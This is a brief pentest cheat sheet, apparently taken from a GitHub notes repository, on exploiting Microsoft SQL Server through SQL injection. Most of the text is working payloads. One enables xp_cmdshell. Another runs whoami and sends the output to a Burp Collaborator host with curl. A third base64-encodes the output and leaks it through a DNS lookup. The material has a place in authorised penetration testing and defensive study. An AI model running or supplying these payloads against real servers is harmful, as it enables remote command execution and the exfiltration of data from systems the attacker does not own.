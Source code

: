 # MSSQL Privilege Escalation

## Blind RCE

First we have to enable xp_cmdshell:  
```sql
; EXEC sp_configure ‘show advanced options’, 1; RECONFIGURE; EXEC sp_configure ‘xp_cmdshell’, 1; RECONFIGURE;--
```

Now we execute command and getting the output on our Burp Collaborator:
```sql
;EXEC xp_cmdshell ‘powershell -c “$x = whoami; curl http://my-burp-link.burpcollaborator.net/get?output=$x"';--
```

## The harder approach

The following command enabled xp_cmdshell, and executes a simple powershell command and  get the executed command response in DNS request.

```
random';EXEC sp_configure 'show advanced options', 1; EXEC sp_configure 'xp_cmdshell', 1; reconfigure with override; exec master..xp_cmdshell 'powershell $cmd=whoami;  $enc=[Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($cmd)).trim(''=''); ping -n 1 $enc''.mysubdomainhere.burpcollaborator.net'' '-- -

```

If successfully, on Collaborator you will see:

![burp_collaborator](https://user-images.githubusercontent.com/82765761/123510494-5fc2b880-d695-11eb-9f0c-7c4c2f005aa5.png)

### Reference
https://github.com/man1pulator/pentest_diary
